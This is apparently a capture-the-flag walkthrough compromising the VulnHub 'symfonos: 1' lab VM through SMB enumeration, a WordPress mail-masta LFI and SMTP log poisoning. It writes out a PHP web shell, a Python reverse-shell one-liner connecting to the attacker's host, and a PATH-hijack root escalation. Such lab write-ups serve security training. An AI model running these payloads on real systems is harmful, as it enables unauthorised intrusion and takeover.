 <h1>symfonos: 1</h1>

**Today, we'll be looking at the symfonos 1 machine on vulnhub.
You can download the machine here:**
<https://www.vulnhub.com/entry/symfonos-1,322/>

Let's scan the machine with nmap.
```
┌──(root㉿kali)-[~]
└─# nmap -sS -A 172.16.243.134 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-19 09:13 EET
Nmap scan report for 172.16.243.134
Host is up (0.00012s latency).
Not shown: 995 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 ab5b45a70547a50445ca6f18bd1803c2 (RSA)
|   256 a05f400a0a1f68353ef45407619fc64a (ECDSA)
|_  256 bc31f540bc08584bfb6617ff8412ac1d (ED25519)
25/tcp  open  smtp        Postfix smtpd
|_smtp-commands: symfonos.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 00:0C:29:4D:BC:CD (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Hosts:  symfonos.localdomain, SYMFONOS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m12s, median: 0s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-06-19T07:13:23
|_  start_date: N/A
|_nbstat: NetBIOS name: SYMFONOS, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos
|   NetBIOS computer name: SYMFONOS\x00
|   Domain name: \x00
|   FQDN: symfonos
|_  System time: 2023-06-19T02:13:23-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE
HOP RTT     ADDRESS
1   0.12 ms 172.16.243.134

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.81 seconds
```

We can see that the machine is running smb.
Let's use enum4linux to enumerate the mahcine.

```enum4linux -a 172.16.243.134```

We found a username.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/pwnlab/pics/pic1.png)

We also found shares on the machine.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/pwnlab/pics/pic2.png)

Let's check the anonymous share as it doesn't have a password.

```smbclient //symfonos.local//anonymous```

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/pwnlab/pics/pic3.png)

We found an interesting file **attention.txt**.
Let's get that.

Looks like we got some passwords.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/pwnlab/pics/pic4.png)

Let's try to login into the helios share with those.
We got in with the password **qwerty**.
We also found two files.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/pwnlab/pics/pic5.png)

We found a directory in the **todo.txt** file.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/pwnlab/pics/pic6.png)

Looks like it's runnin wordpress.

Let's run wpscan.
```wpscan --url http://symfonos.local/h3l105```

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/pwnlab/pics/pic7.png)

We found a plugin called **mail-masta** that has an LFI vulnerability.
You can find it [here](https://www.exploit-db.com/exploits/40290).

We can read the /etc/passwd file.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/pwnlab/pics/pic8.png)

Now, let's try to include php shell code.
We can use the smtp server running on port 25 to send the php code.

```MAIL FROM: <hacker>```
```RCPT TO: Helios```
```data```
```<?php system($_GET[‘cmd’]); ?>```

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/pwnlab/pics/pic9.png)

We can verify it's working by runnin the command **id**.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/pwnlab/pics/pic10.png)

Now, let's open a shell on the machine.

I'll use this python shell.

```python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.243.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'```

We got a shell.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/pwnlab/pics/pic11.png)


After some local enumeration, I found an interesting file in the **opt** directory called **statuscheck**.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/pwnlab/pics/pic12.png)

I ran it and looks like it ran the curl command.
And it is run as root.
We can modify the PATH variable and use that to gain root priviliges.

First let's go to the **tmp** directory and create our own curl command.
After that, we need to modify the PATH variable to run the curl command we just created.

``echo "/bin/sh" > curl``
``chmod 777 curl``
``export PATH=.:$PATH``

Now, if we run ``/opt/statuscheck``, we should become root.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/pwnlab/pics/pic13.png)

